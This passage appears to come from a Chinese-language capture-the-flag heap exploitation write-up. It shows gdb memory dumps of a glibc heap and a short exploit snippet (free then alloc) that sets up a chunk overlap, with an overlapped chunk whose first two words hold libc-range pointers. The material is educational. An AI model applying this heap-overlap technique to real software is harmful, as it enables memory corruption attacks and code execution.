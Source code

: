 ```
0x55ca73bf05c0:	0x4141414141414141	0x4141414141414141
0x55ca73bf05d0:	0x4141414141414141	0x4141414141414141
0x55ca73bf05e0:	0x4141414141414141	0x4141414141414141
0x55ca73bf05f0:	0x0000000000000000	0x0000000000020a11
0x55ca73bf0600:	0x0000000000000000	0x0000000000000000
```
### 第三个堆块情况分析点
这个主要是在上面的基础上开始利用漏洞，
```
# chunk overlap
free(3)
alloc(0xf0,'A' * 0xf0) #2
```
```
gdb-peda$ x /100xg 0x55ca73bf02f0
0x55ca73bf02f0:	0x0000000000000000	0x0000000000000041
0x55ca73bf0300:	0x4141414141414141	0x4141414141414141
0x55ca73bf0310:	0x4141414141414141	0x4141414141414141
0x55ca73bf0320:	0x4141414141414141	0x4141414141414141
0x55ca73bf0330:	0x0000000000000000	0x0000000000000101
0x55ca73bf0340:	0x4141414141414141	0x4141414141414141
0x55ca73bf0350:	0x4141414141414141	0x4141414141414141
0x55ca73bf0360:	0x4141414141414141	0x4141414141414141
0x55ca73bf0370:	0x4141414141414141	0x4141414141414141
0x55ca73bf0380:	0x4141414141414141	0x4141414141414141
0x55ca73bf0390:	0x4141414141414141	0x4141414141414141
0x55ca73bf03a0:	0x4141414141414141	0x4141414141414141
0x55ca73bf03b0:	0x4141414141414141	0x4141414141414141
0x55ca73bf03c0:	0x4141414141414141	0x4141414141414141
0x55ca73bf03d0:	0x4141414141414141	0x4141414141414141
0x55ca73bf03e0:	0x4141414141414141	0x4141414141414141
0x55ca73bf03f0:	0x4141414141414141	0x4141414141414141
0x55ca73bf0400:	0x4141414141414141	0x4141414141414141
0x55ca73bf0410:	0x4141414141414141	0x4141414141414141
0x55ca73bf0420:	0x4141414141414141	0x4141414141414141
0x55ca73bf0430:	0x0000000000000000	0x0000000000000181
0x55ca73bf0440:	0x00007fc5e3f247b8	0x00007fc5e3f247b8
0x55ca73bf0450:	0x4242424242424242	0x4242424242424242
0x55ca73bf0460:	0x4242424242424242	0x4242424242424242
0x55ca73bf0470:	0x4242424242424242	0x4242424242424242
0x55ca73bf0480:	0x4242424242424242	0x4242424242424242
0x55ca73bf0490:	0x4242424242424242	0x4242424242424242
0x55ca73bf04a0:	0x0000000000000000	0x0000000000000110
0x55ca73bf04b0:	0x0000000000000180	0x0000000000000100
0x55ca73bf04c0:	0x4141414141414141	0x4141414141414141
0x55ca73bf04d0:	0x4141414141414141	0x4141414141414141
0x55ca73bf04e0:	0x4141414141414141	0x4141414141414141
0x55ca73bf04f0:	0x4141414141414141	0x4141414141414141
0x55ca73bf0500:	0x4141414141414141	0x4141414141414141
0x55ca73bf0510:	0x4141414141414141	0x4141414141414141
0x55ca73bf0520:	0x4141414141414141	0x4141414141414141
0x55ca73bf0530:	0x4141414141414141	0x4141414141414141
0x55ca73bf0540:	0x4141414141414141	0x4141414141414141
0x55ca73bf0550:	0x4141414141414141	0x4141414141414141
0x55ca73bf0560:	0x4141414141414141	0x4141414141414141
0x55ca73bf0570:	0x4141414141414141	0x4141414141414141
0x55ca73bf0580:	0x4141414141414141	0x4141414141414141
0x55ca73bf0590:	0x4141414141414141	0x4141414141414141
0x55ca73bf05a0:	0x4141414141414141	0x4141414141414141
0x55ca73bf05b0:	0x0000000000000180	0x0000000000000040
0x55ca73bf05c0:	0x4141414141414141	0x4141414141414141
0x55ca73bf05d0:	0x4141414141414141	0x4141414141414141
0x55ca73bf05e0:	0x4141414141414141	0x4141414141414141
```